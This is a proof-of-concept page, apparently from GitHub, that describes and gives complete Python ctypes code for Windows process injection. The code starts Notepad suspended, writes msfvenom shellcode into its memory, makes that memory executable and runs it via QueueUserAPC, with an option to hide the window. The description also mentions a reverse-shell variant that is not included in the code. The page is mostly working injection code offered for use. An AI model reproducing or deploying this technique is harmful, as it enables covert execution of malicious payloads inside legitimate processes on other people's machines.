 # Process Creation and Shellcode Execution
## Description

This POC demonstrates how to create a new process (in this case, launching an instance of Notepad) and then inject and execute shellcode within that process. Essentially, the code shows a technique often used in malware or penetration testing—code injection—where executable code (shellcode) is written into the memory space of another process and then executed. The POC uses Python’s ctypes library to interface directly with Windows API functions.

## What the POC does
1. Process Creation:
  The code begins by creating a new process (Notepad.exe) using the Windows API call CreateProcessA. In many cases, the process is started in a suspended state (using flags such as CREATE_SUSPENDED), which gives the POC time to inject the shellcode before the process begins normal execution.

2. Memory Allocation in Remote Process:
  Using VirtualAllocEx, the POC allocates a block of memory in the target process (Notepad). This allocated memory will later hold the shellcode. The allocation is done with the combined flags MEM_COMMIT | MEM_RESERVE and initially set to PAGE_READWRITE.

3. Shellcode Injection:
  The shellcode, which is generated via tools like msfvenom, is stored as a byte string in the code. The function WriteProcessMemory writes this shellcode into the allocated memory within the remote process.

4. Changing Memory Protection:
  To allow the shellcode to be executed, the memory protection is changed from PAGE_READWRITE to PAGE_EXECUTE_READ using VirtualProtectEx. This is a critical step because Windows requires memory pages to have execute permissions if they are to be run as code.

5. Executing the Shellcode:
  Instead of directly creating a new thread to execute the shellcode (which is an option using CreateRemoteThread—although it’s commented out here), the POC uses QueueUserAPC (Asynchronous Procedure Call). An APC is queued to the suspended thread, pointing to the shellcode’s address. Finally, ResumeThread is called on the target process’s main thread, which then processes the queued APC and executes the shellcode.

6. Two Variants of Shellcode:
   1. Generic Shellcode: The first part of the code uses shellcode generated by msfvenom.
   2. Reverse Shell Payload: Later, the POC demonstrates a variant intended to provide a reverse shell. The reverse shell payload is also generated via msfvenom (with parameters like LHOST and LPORT to define the attacker’s IP and port).


## Code
   ```bash
from ctypes import *
from ctypes import wintypes
import subprocess

kernel32 = windll.kernel32
SIZE_T = c_size_t
LPTSTR = POINTER(c_char)
LPBYTE = POINTER(c_ubyte)

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
							('lpSecurityDescriptor', wintypes.LPVOID),
							('bInheritHandle', wintypes.BOOL),]
							
SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

VirtualProtectEx = kernel32.VirtualProtectEx
VirtualProtectEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.LPDWORD)
VirtualProtectEx.restype = wintypes.BOOL

# process = subprocess.Popen(["notepad.exe"])
# print("Starting process with PID => {}".format(process.pid))

class STARTUPINFO(Structure):
	_fields_ = [("cb", wintypes.DWORD),
							("lpReserved", LPTSTR),
							("lpDesktop", LPTSTR),
							("lpTitle", LPTSTR),
							("dwX", wintypes.DWORD),
							("dwY", wintypes.DWORD),
							("dwXSize", wintypes.DWORD),
							("dwYSize", wintypes.DWORD),
							("dwXCountChars", wintypes.DWORD),
							("dwYCountChars", wintypes.DWORD),
							("dwFillAttribute", wintypes.DWORD),
							("dwFlags", wintypes.DWORD),
							("wShowWindow", wintypes.WORD),
							("cbReserved2", wintypes.WORD),
							("lpReserved2", LPBYTE),
							("hStdInput", wintypes.HANDLE),
							("hStdOutput", wintypes.HANDLE),
							("hStdError", wintypes.HANDLE),]

class PROCESS_INFORMATION(Structure):
	_fields_ = [("hProcess", wintypes.HANDLE),
							("hThread", wintypes.HANDLE),
							("dwProcessId", wintypes.DWORD),
							("dwThreadId", wintypes.DWORD),]

CreateProcessA = kernel32.CreateProcessA
CreateProcessA.argtypes = (wintypes.LPCSTR, wintypes.LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, wintypes.BOOL, wintypes.DWORD, wintypes.LPVOID, wintypes.LPCSTR, POINTER(STARTUPINFO), POINTER(PROCESS_INFORMATION)) 
CreateProcessA.restype = wintypes.BOOL

#Now we use metasploit to develop our shellcode: msfvenom -a x64 -p windows/x64/messagebox TITLE=hello TEXT="This is you worst enemy :)" -f py
buf =  b""
buf += b"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00"
buf += b"\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65"
buf += b"\x48\x8b\x52\x60\x3e\x48\x8b\x52\x18\x3e\x48\x8b"
buf += b"\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48\x0f\xb7\x4a"
buf += b"\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
buf += b"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
buf += b"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
buf += b"\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44"
buf += b"\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
buf += b"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31"
buf += b"\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75"
buf += b"\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd6"
buf += b"\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
buf += b"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
buf += b"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e"
buf += b"\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20"
buf += b"\x41\x52\xff\xe0\x58\x41\x59\x5a\x3e\x48\x8b\x12"
buf += b"\xe9\x49\xff\xff\xff\x5d\x3e\x48\x8d\x8d\x2f\x01"
buf += b"\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5\x49\xc7"
buf += b"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
buf += b"\x00\x3e\x4c\x8d\x85\x29\x01\x00\x00\x48\x31\xc9"
buf += b"\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41"
buf += b"\xba\xf0\xb5\xa2\x56\xff\xd5\x54\x68\x69\x73\x20"
buf += b"\x69\x73\x20\x79\x6f\x75\x20\x77\x6f\x72\x73\x74"
buf += b"\x20\x65\x6e\x65\x6d\x79\x20\x3a\x29\x00\x68\x65"
buf += b"\x6c\x6c\x6f\x00\x75\x73\x65\x72\x33\x32\x2e\x64"
buf += b"\x6c\x6c\x00"

def verify(x):
	if not x:
		raise WinError()
		
startup_info = STARTUPINFO()
startup_info.cb = sizeof(startup_info)

startup_info.dwFlags = 1
startup_info.wShowWindow = 1 #change the value to 0 if you want to hide the window

process_info = PROCESS_INFORMATION()

CREATE_NEW_CONSOLE = 0x00000010
CREATE_NO_WINDOW = 0x08000000
CREATE_SUSPENDED = 0x00000004

created = CreateProcessA(b"C:\\Windows\\System32\\notepad.exe", None, None, None, False, CREATE_SUSPENDED | CREATE_NO_WINDOW, None, None, byref(startup_info), byref(process_info))

verify(created)

pid = process_info.dwProcessId
h_process = process_info.hProcess
thread_id = process_info.dwThreadId
h_thread = process_info.hThread

print("Started process => Handle:{}, PID:{}, TID:{}".format(h_process, pid, thread_id))

remote_memory = VirtualAllocEx(h_process, False, len(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
verify(remote_memory)
print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(h_process, remote_memory, buf, len(buf), None)
verify(write)
print("Bytes written => {}".format(len(buf)))

PAGE_EXECUTE_READ = 0x20

old_protection = wintypes.DWORD(0)
protect = VirtualProtectEx(h_process, remote_memory, len(buf), PAGE_EXECUTE_READ, byref(old_protection))
verify(protect)
print("Memory protection updated from {} to {}".format(old_protection.value, PAGE_EXECUTE_READ))

#rthread = CreateRemoteThread(h_process, None, 0, remote_memory, None, EXECUTE_IMMEDIATELY, None)
#verify(rthread)

PAPCFUNC = CFUNCTYPE(None, POINTER(wintypes.ULONG))

QueueUserAPC = kernel32.QueueUserAPC
QueueUserAPC.argtypes = (PAPCFUNC, wintypes.HANDLE, POINTER(wintypes.ULONG))
QueueUserAPC.restype = wintypes.BOOL

ResumeThread = kernel32.ResumeThread
ResumeThread.argtypes = (wintypes.HANDLE, )
ResumeThread.restype = wintypes.BOOL

rqueue = QueueUserAPC(PAPCFUNC(remote_memory), h_thread, None)
verify(rqueue)
print("Queueing APC thread => {}".format(h_thread))

rthread = ResumeThread(h_thread)
verify(rthread)
print("Resuming thread!")
